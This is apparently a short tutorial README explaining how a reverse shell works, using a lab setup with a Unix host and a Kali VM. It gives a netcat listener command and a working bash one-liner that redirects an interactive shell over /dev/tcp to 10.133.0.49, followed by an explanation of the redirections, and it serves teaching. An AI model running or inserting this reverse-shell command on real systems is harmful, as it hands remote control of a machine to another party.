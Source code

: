 How reverse shell works
-----------------------

First, open a nc connect on your host machine using:
```
nc -l [PORT] # since I'm using Unix
```

Then, run the following command that's executed via browser on the Kali VM:
```
/bin/bash -c "bash -i >& /dev/tcp/10.133.0.49/6666 0>&1"
```
The command starts bash in interactive mode and redirects stdout and stderr to the TCP socket that is connected to 10.133.0.49 and redirects stdin to stdout. 

This way, all the outputs and errors from the VM shell will be sent over to the Host's terminal via nc.  

By redirecting stdin to stdout, VM shell awaits for data from stdout, which is connected to the Host's terminal via nc.   

In short, the data you type in you host machine get sent over to kali VM through TCP, which gets piped into stdin of the shell. Then, the shell will fork a process to execute some command, take stdout and stderr and send them over to the TCP socket. As a result, the host will be able to see the outputs of the command.
